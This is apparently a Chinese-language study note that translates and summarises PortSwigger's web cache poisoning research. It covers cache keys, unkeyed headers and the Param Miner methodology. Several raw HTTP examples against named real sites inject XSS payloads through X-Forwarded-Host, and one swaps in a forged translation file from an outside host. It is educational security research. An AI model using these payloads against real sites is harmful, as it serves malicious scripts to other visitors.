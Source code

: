 > 本文 翻译整理自[实用的web缓存中毒](https://portswigger.net/research/practical-web-cache-poisoning)，记录仅作个人学习使用，侵删
## 核心概念
### Caching 101
Web缓存位于用户和应用程序服务器之间，它们保存和提供某些响应的副本。在下图中，我们可以看到三个用户一个接一个地获取相同的资源：

![](media/Pasted%20image%2020231003235129.png)

### Cache keys
每当缓存收到一个资源的请求时，它需要决定是否已经保存了这个确切资源的副本，并可以用它来回复请求，还是需要将请求转发给应用服务器。逐字节匹配不现实，这就出现了`缓存键`解决问题~~（通常使用request-line和user-agent作为缓存键）~~
```java
GET /blog/post.php?mobile=1 HTTP/1.1  
Host: example.com  
User-Agent: Mozilla/5.0 … Firefox/57.0  
Cookie: language=pl;  
Connection: close
```

```java
GET /blog/post.php?mobile=1 HTTP/1.1  
Host: example.com  
User-Agent: Mozilla/5.0 … Firefox/57.0  
Cookie: language=en;  
Connection: close
```

在上述请求中，使用了HTTP方法`GET`和主机名`example.com` 以及请求路径`/blog/post.php` 和查询字符串`?mobile=1`来作为缓存建，可想而知，该页面将以错误的语言提供给第二个访问者
>这暗示了一个问题--由非缓存建触发的响应中的任何差异都可能被存储并提供给其他用户

#### 补充：
```
缓存通过使用缓存键（cache keys）的概念来解决这个问题 - 这是 HTTP 请求的一些特定组件，用于完全标识被请求的资源

缓存键通常包括用于唯一标识资源的以下元素：

1. **HTTP方法 (HTTP Method):** 这表示请求的类型，例如 GET、POST、PUT 或 DELETE。

2. **主机名 (Host Name):** 表示请求资源的主机名或域名，用于定位资源的来源。

3. **路径 (Path):** 表示请求资源的路径，即 URL 中主机名之后的部分。

4. **查询字符串 (Query String):** 表示查询参数，如果请求中包含查询参数，它们也会被包括在缓存键中。

```

### Cache Poisoning
Web缓存中毒的目的是发送导致有害响应的请求，这些响应被保存该高速缓存中并提供给其他用户。

![](media/Pasted%20image%2020231004000647.png)
1. HTTP头等非键控输入
2. HTTP响应拆分
3. 请求走私

### Methodology

![](media/Pasted%20image%2020231004172422.png)

1. 找到非缓存键 ，Param Miner
2. 评估你可以用它做多少破坏，然后尝试将它存储该高速缓存中。
3. 缓存的响应可以屏蔽非缓存键输入，因此如果您试图手动检测或探索非缓存键输入，那么缓存终结者是至关重要的。如果加载了Param Miner，则可以通过向查询字符串添加一个值为$randomplz的参数来确保每个请求都有一个唯一的缓存键。
4. ~~当审核一个实时网站时，意外地毒害其他访问者是一个永久的危险。Param Miner通过向Burp的所有出站请求添加缓存破坏器来缓解此问题。这个缓存buster有一个固定的值，因此您可以自己观察缓存行为，而不会影响其他用户。~~

### 实例分析

#### Basic Poisoning
1. 找非缓存键
```code
GET /en?cb=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host:      **canary** 
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://  **canary **  /cms/social.png" />
```
2. 评估是否可利用
```code
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host:     **a."><script>alert(1)</script> **
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://   **a."><script>alert(1)</script>**  "/>
```
3. 检查此响应是否已存储在缓存中，以便将其传递给其他用户
```code
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
  
HTTP/1.1 200 OK  
…  
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```

#### Discreet poisoning
1. 发送大量请求保证缓存，方法几乎不可用
2. 逆向目标的缓存到期系统并通过浏览文档和监控网站来预测准确的到期时间来避免这个问题，但这听起来就很难。
3. 响应协议头“Age”和“max-age”分别是当前响应的时间和它将过期的时间
```code
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
```


#### Selective Poisoning
“Vary” ：赋予的值代表缓存键.
```code
GET / HTTP/1.1  
Host: redacted.com  
User-Agent: Mozilla/5.0 … Firefox/60.0  
X-Forwarded-Host: a"><iframe onload=alert(1)>  
  
HTTP/1.1 200 OK  
X-Served-By: cache-lhr6335-LHR  
Vary: User-Agent, Accept-Encoding  
…  
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>  
</iframe>
```
Vary头告诉我们，我们的User-Agent可能是该高速缓存键的一部分，手动测试证实了这一点。这意味着，由于我们声称使用Firefox 60，我们的漏洞将只提供给其他Firefox 60用户。~~我们可以使用流行的用户代理列表来确保大多数访问者收到我们的漏洞，但这种行为给了我们更多选择性攻击的选择。如果你知道他们的用户代理，你就有可能针对特定的人进行攻击，甚至可以隐藏自己的网站监控团队。~~

#### DOM Poisoning
利用未加密的输入并不总是像写入XSS Payload一样容易。如以下请求：

```
GET /dataset HTTP/1.1
Host: catalog.data.gov
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Age: 32707
X-Cache: Hit from cloudfront 
…
<body data-site-root="https://canary/">
```

我们已经控制了'data-site-root'属性，但我们不能突破以使用XSS，并且不清楚这个属性甚至用于什么。为了找到答案，我在Burp中创建了一个匹配并替换的规则，为所有请求添加了“X-Forwarded-Host：id.burpcollaborator.net”协议头，然后浏览了该站点。当加载某些页面时，Firefox会将JavaScript生成的请求发送到我的服务器：

```
GET /api/i18n/en HTTP/1.1
Host: id.burpcollaborator.net
```

该路径表明，在网站的某个地方，有一些JavaScript代码使用data-site-root属性来决定从哪里加载一些国际数据。我试图通过获取[https://catalog.data.gov/api/i18n/en](https://catalog.data.gov/api/i18n/en) 来找出这些数据应该是什么样的，但只是收到了一个空的JSON响应。幸运的是，将'en'改为'es'拿到了一个线索：

```
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov

HTTP/1.1 200 OK
…
{"Show more":"Mostrar más"}
```

该文件包含用于将短语翻译为用户所选语言的地图。通过创建我们自己的翻译文件并使缓存投毒，我们可以将短语翻译变成漏洞：

```
GET  /api/i18n/en HTTP/1.1
Host: portswigger-labs.net

HTTP/1.1 200 OK
...
{"Show more":"<svg onload=alert(1)>"}
```

最终的结果，任何查看包含“显示更多”文字的网页的人都会被利用。

到此为止 ，更多内容请看paper

## Tools
[Param Miner](https://github.com/PortSwigger/param-miner)

## Paper
[实用的web缓存中毒](https://portswigger.net/research/practical-web-cache-poisoning)  
[web缓存中毒导致的dos](https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning)  
[**CPDoS**: **C**ache **P**oisoned **D**enial **o**f **S**ervice](https://cpdos.org/)  
